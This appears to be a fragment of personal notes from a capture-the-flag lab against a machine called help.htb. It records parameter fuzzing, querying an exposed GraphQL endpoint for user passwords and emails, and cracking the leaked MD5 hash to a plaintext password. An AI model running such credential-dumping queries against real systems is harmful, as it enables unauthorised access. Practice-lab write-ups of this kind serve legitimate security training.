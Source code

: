 Message 
![[Pasted image 20240523161835.png]]

`arjun -u http://help.htb:3000/` -> no parameters

Express js query = GraphQL?
![[Screenshots/Pasted image 20240523164953.png]]

http://help.htb:3000/graphql/?query={user}

this is weird
trying fuzzing. found `{user{password}}`

`5d3c93182bb20f07b994a7f617e99cff`

crackstation -> `godhelpmeplz`

username? Shiv no
`{user{email}}`
`{user{username}}` -> helpme@helpme.com

port 80?
